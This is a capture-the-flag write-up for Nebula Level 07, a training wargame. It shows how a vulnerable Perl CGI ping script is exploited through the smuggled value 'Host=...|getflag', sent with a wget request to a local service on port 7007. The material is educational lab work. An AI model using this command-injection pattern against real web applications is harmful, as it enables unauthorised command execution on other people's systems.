




# Nebula - [LEVEL 07](https://exploit.education/nebula/level-07/)

Level Description:



# Nebula - [LEVEL 07](https://exploit.education/nebula/level-07/) - Solution

Let's try to run the ```index.cgi``` file with argument ```8.8.8.8```:



As we can see from the code, We can inject the ```getflag``` command by sending ```Host=8.8.8.8|getflag```, It will make the command:
```perl
...
@output = `ping -c 3 $host 2>&1`;
...
```
To run ```ping -c 3 8.8.8.8|getflag 2>&1```

By observing the ```/home/flag07/``` directory we can see another file ```httpd.conf```:



We can see that it's listening on port ```7007```.

Let's make a request using ```wget``` to the address [http://localhost:7007/index.cgi?Host=127.0.0.1|getflag](http://localhost:7007/index.cgi?Host=127.0.0.1|getflag): ```wget -qO- "http://localhost:7007/index.cgi?Host=127.0.0.1|getflag"```:



Note: We use the flag ```-q -O-``` to make ```wget``` to write the output to stdout (because we have no write permission on ```/home/flag07```)
